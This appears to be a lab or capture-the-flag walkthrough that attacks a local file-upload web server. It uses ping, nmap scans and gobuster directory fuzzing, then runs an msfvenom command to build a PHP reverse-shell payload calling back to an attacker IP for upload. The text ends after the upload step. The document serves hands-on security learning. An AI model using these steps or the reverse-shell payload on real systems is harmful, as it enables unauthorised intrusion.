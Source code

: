
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

We test the connection with the victim machine

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

As the victim machine is within reach, we will send a request for a response with the ports that are open.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

Now we launch a port scan

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

We will upload our malicious file

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)







